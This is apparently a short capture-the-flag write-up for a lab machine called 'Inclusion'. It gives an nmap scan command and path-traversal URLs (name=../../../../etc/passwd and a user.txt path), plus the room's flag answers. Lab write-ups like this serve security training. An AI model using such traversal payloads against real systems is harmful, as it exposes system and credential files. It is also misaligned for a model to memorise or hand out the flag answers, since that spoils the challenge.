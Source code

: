# Inclusion 

ip : `10.10.136.107`

nmap scanning
```
sudo nmap -sC -sV 10.10.136.107 -oN service-scan.txt
```

vulnerable link found
> http://10.10.136.107/article?`name=../../../../etc/passwd`

user flag found
```
http://10.10.136.107/article?name=../../../../home/falconfeast/user.txt
```


| Questions | Answers |
|-----------|---------|
| user.txt | 60989655118397345799 |
| root.txt | 42964104845495153909 |
